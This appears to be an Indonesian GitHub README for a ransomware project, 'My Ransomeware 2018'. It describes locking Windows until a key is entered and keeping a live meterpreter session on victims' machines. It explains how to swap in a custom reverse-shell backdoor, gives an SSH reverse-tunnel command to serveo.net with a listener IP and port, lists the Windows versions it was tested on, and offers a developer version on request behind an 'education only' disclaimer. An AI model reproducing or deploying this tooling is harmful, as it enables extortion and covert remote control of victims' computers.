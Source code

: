 # My Ransomeware 2018

[Catatan]

-jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

-jangan merubah nama folder (VirusUI), mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe


[Cara Kerja Software]

-Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

-Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

[cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

Windows 10 versi up

windows 8

windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)
![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)
![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)
![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

Ini untuk edukasi saja, jadi gunakan dengan bijak :D

jika anda menginginkan versi developer software ini anda bisa hubungi saya.
